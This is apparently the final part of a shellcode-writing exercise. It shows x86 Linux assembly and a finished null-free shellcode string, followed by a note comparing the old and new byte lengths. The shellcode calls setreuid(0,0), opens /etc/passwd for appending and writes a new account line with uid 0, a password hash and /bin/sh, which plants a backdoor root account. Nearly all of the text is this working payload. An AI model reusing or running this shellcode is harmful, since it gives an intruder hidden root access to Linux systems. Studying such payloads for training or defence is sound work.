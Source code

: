 ```x86asm
    push 0x303a7372         ; "0:sr"
    push 0x54426769         ; "TBgi"
    push 0x6f667764         ; "ofwd"
    push 0x797a413a         ; "yzA:"
    push 0x656d616e         ; "eman"
    push 0x72657375         ; "resu"
    mov ecx, esp
    
    ; must replace this as the opcode offsets have changed with my modifications
    ; Made 0x28 as payload has extra characters from pushing to stack
    ; mov edx,[ecx-0x4]   ; 0x26 = 38 (uses opcode from E826 at offset 0x26)
    mov dl, 0x25

    push byte +0x4      ;
    pop eax             ; write()
    

    int 0x80            ; ssize_t write(int fd, const void *buf, size_t count);


    ; since I am writing 38 bytes, 0x26 should be in eax as the return value
    ; from write(). Thus, I can just set the least significant byte to 0x1 and save a
    ; byte of shellcode
    ; push byte +0x1      
    ; pop eax
    mov al, 0x1
    
    int 0x80            ; exit()
```

The new shellcode
```c
"\x29\xc9\x31\xdb\x6a\x46\x58\xcd\x80\xb0\x05\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x89\xc3\x68\x68\x68\x2d\x2d\x68\x69\x6e\x2f\x73\x68\x2f\x3a\x2f\x62\x68\x3a\x30\x3a\x3a\x68\x72\x73\x3a\x30\x68\x69\x67\x42\x54\x68\x64\x77\x66\x6f\x68\x3a\x41\x7a\x79\x68\x6e\x61\x6d\x65\x68\x75\x73\x65\x72\x89\xe1\xb2\x25\x6a\x04\x58\xcd\x80\xb0\x01\xcd\x80"
```

## Summary

The old shellcode was 95 characters long (including nulls).
The new shellcode is 101 bytes long and has no null bytes.